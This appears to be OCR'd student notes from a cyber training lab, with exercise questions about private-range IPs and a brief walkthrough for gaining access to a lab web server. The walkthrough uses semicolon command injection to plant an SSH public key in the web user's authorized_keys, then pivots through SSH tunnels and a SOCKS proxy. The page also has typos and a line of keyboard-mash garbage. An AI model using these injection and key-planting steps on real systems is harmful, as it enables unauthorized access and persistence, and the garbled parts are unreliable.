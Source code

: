         - vm4B7tY8qpadtg3ZXmWq
7. Training Site Location

        What is the IPv4 address of the Training Site website?
        - firefox
        - 10.100.28.40/uploads
        - message
        - Just completed my Cyber Awareness training and it says ATOPIA. Last I checked that is a whole other country.
        Please send me a corrected cert with the right now.
        I took my online training from the following website
        - 10.100.28.55

8. Malicious Uppload 

        Gain initial access to the web server located at 10.100.28.40.

        What is the greeting when logging into the system?



***
## NOT SURE WHERE THIS GOES BUT HERE IS HOW I GOT CREDS TO GET ONTO THE BOX

- find `etc/passwd`
- `;mkdir var/www/.ssh`
`ssh-keygen -t rsa` on opbox
- be sure to press enter for no passphrase 
- `cat /home/student/.ssh/id_rsa.pub`
    - ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDO5Rb2Ttlw+F08GfRCAvT7yfPRtMUS5UN/noD2/n7Jsp0UsA3+6rV37CqkHro/3UEMT/0TujlPgzMlQvD7wJQbhS+QxJbbiZsibWFHOmJ98w9miCmauMdeJWj8v8WnhAicVL3rCaBYZ8Qz/IDjPabWhBUkU41lCjAuVde79T3tSZ8lqt3PRBK2488nUu5QHVyn/0qRwZlHG1u33KhIB1oO7Tr71kfpijWBGchoDV+hooqPCZ1BsdAkdJu7Z4dNCrPVpjKnuWiwdCMGlNtaUbuEMAT5Ma9o4RzbFSDQB0fi0Tt+AR3fMcr9qyi9fQfaec1UzJfxsKMUPVGXxWMYMZjf student@linux-opstation-xns7
- `;echo "<\key" >> /var/www/.ssh/authoried_keys`
- kill your proxychains
- ssh student@10.50.36.131 -L 1100:10.100.28.40:4444
-  ssh -p 1100 www-data@localhost -D 9050

; mkdir /var/www/.ssh


dafdasghjksfdhajklagsdvgiru2132132131uih2uihrbuiafhsidfhahf#$%%$%^%&^&^%^%$%GBkjdhfjksdafhkjdasbfkjdsafgdkasbfhGHJNDSHFND:KBBEBYUw
